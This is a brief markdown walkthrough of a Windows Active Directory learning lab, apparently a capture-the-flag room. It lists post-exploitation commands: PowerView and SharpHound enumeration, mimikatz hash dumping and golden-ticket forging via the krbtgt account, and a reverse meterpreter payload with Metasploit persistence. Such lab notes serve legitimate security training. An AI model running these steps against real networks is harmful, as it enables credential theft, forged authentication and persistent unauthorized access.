 # About
* Type: Learning
* Box: Windows


# Tasks

## Task 1
* Read

## Task 2
* __Using powerview__
* ssh into box using administrator:password123@
* Put powerview into the box
* Start it ./powerview.ps1
* Get-NetUser | select cn (Gets us usernames)
* Get-NetComputer -fulldata (Gets full info about computer)
* Invoke-Sharefinder (Lists shares)

## Task 3
* __Using BloodHound__
* It is used with sharphound(on victim) and bloodhound(on attacker)
* . ./SharpHound.ps1
* invoke-bloodhound -collectionmethod all -domain controller.local -zipfilename morty.zip
* scp the zip file to attacker
* import to bloodhound and view queries

## Task 4
* __Using mimikatz__
* You should be an admin to use mimikatz
* lsadump::lsa /patch (dumps hashes)
* lsadump::lsa /inject /user:krbtgt (step 1 for golden ticket)
* kerberos::golden /user: /domain: /id: /krbtgt: /sid: (step 2 for golden ticket)
* misc::cmd (get a shell)

## Task 5
* __Enumeration with server manager (RDP)__
* Inbuilt server manager tools help in privescs

## Task 6
* __Persistence using msfvenom__
* Using reverse meterpreter payload to get shell
* exploit/windows/local/persistence gives us persitence

## Task 7
* __Resources__
*  https://blog.harmj0y.net/
*  https://adsecurity.org/?page_id=1821
*  https://metasploit.help.rapid7.com/docs/about-post-exploitation
*  http://www.pentest-standard.org/index.php/Post_Exploitation
*  https://offsec.red/mimikatz-cheat-sheet/
*  https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
